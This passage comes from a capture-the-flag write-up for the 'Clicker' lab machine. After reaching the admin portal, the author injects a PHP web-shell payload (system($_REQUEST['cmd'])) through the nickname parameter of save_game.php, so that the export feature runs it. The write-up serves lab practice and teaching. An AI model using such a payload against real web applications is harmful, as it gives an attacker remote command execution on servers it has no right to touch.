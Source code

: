
After sending it we will log out and log in again with our user:

![](../assets/images/clicker/20230926230455.png)

We have admin access!

The admins portal only lets us to export the top players name, but the way it works that it get the player names, then load them, so if we injected some php codes there, it can be executed.

So we will send the following request:
```
http://clicker.htb/save_game.php?nickname=clicks=100000000&%3C%3fphp+system($_REQUEST[%27cmd%27])%3b+%3f%3E
```
We are injecting some php code into the nickname which should be shown later in the top player list when exporting.


Doing in burp like so:


![](../assets/images/clicker/20230927122326.png)
